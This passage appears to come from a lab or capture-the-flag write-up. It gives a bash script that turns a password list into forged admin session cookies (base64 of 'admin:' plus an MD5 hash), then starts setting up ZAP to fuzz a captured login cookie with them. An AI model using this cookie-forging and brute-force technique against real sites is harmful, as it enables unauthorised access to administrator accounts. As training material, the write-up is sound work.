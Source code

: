 ```bash
            encoded_string+="$char"
        fi
    done
    echo "$encoded_string"
}

# Process each word from the input file
while IFS= read -r word; do
    # Calculate MD5 hash of the word
    md5_hash=$(echo -n "$word" | md5sum | awk '{print $1}')
    # Append "admin:" to the MD5 hash
    md5_with_admin="admin:$md5_hash"
    # Convert MD5 hash with "admin:" to base64
    base64_encoded=$(echo -n "$md5_with_admin" | base64)
    # URL encode symbols and special characters in the base64 encoded string
    url_encoded=$(url_encode_special "$base64_encoded")
    # Append the URL encoded value to the output file
    echo "$url_encoded" >> "$output_file"
done < "$input_file"

echo "Processing completed. Output saved to $output_file."
```

Before running this script, make sure to rename the `.password_list.txt` file to `password_list.txt` using the command:

```sh
mv .passoword_list.txt password_list.txt
```

After the script is finished, we can run the `cat` command to double-check the output:

```sh
cat base64_admin.txt
```

Here is a snipet of what it should look like:

```plaintext
YWRtaW46Mjg1OGU1NzJjMzg2ODg4ODAxNzRiNzI1Y2IyNDc2Yjk%3D
YWRtaW46OTcyMWU4ZDJhYTcyZDRlMzMwZmVhZmQyZWU5NjgwNGY%3D
YWRtaW46Yjc4NmEwNTJmMzU4NjY2YjZmMzExMGQ0NzNlZDJjNzc%3D
YWRtaW46N2EwMDQ0ZmU2YzAwZDgzZmQzZTk2MzA2ZDM1N2M4NTE%3D
```

Now we can load the website using [ZAP](zaproxy.org/) or [Burp Suite](https://portswigger.net/burp) (I used ZAP) to capture the request after logging in with the `test` account:

![04d457a60c5e4265183066908a97adf9.png](/resources/bc8750dd29154844ba89f3f3b5b72f87.png)

Right-click and select "Fuzz..", then in the "Fuzzer" window the payload should be highlighted already if you highlighted the cookie like in the screenshot above.

We can click on the "Edit" button, modify it to "FUZZ" and click the "Save" button when finished:

![71e8801642185226e2ec0c03a9a178d0.png](/resources/0e9b4d738dea4a6d8c4dd8cc0e20e24b.png)
